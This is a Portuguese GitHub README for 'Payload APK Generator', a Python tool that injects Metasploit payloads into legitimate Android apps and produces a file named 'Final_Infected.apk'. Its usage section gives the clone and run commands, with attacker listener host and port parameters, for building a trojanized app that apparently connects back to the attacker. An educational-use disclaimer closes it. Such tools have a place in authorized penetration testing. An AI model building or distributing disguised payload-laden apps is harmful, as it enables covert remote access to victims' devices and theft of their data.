 # payload_apk

# Payload APK Generator

O Payload APK Generator é uma ferramenta simples para injetar payloads Metasploit em aplicativos Android legítimos. Este script automatiza o processo de criação de um APK infectado para fins de teste e pesquisa.

## Requisitos

Certifique-se de ter as seguintes dependências instaladas no seu sistema:

- [APKTool](https://ibotpeaches.github.io/Apktool/)
- [Jarsigner](https://docs.oracle.com/en/java/javase/11/tools/jarsigner.html) ou [APKSigner](https://github.com/iBotPeaches/Apktool)

## Uso

1. Clone o repositório:

    ```bash
    git clone https://github.com/sucloudflare/payload-apk-generator.git
    ```

2. Navegue até o diretório do script:

    ```bash
    cd payload-apk-generator
    ```

3. Execute o script com os argumentos necessários:

    ```bash
    python payload_apk.py --lhost SEU_ENDERECO_IP --lport SUA_PORTA --normal-apk CAMINHO_APK_LEGITIMO --apk-name NOME_APK
    ```

    Certifique-se de substituir `SEU_ENDERECO_IP`, `SUA_PORTA`, `CAMINHO_APK_LEGITIMO` e `NOME_APK` pelos valores desejados.

4. O arquivo APK infectado será gerado no diretório e estará disponível como `Final_Infected.apk`.

## Contribuindo

Se você encontrar problemas ou tiver sugestões para melhorias, sinta-se à vontade para abrir uma [issue](https://github.com/sucloudflare/payload-apk-generator/issues) ou enviar um [pull request](https://github.com/sucloudflare/payload-apk-generator/pulls).

## Aviso Legal

Este script é destinado apenas para fins educacionais e de pesquisa. O uso indevido deste script em ambientes não autorizados é estritamente proibido.

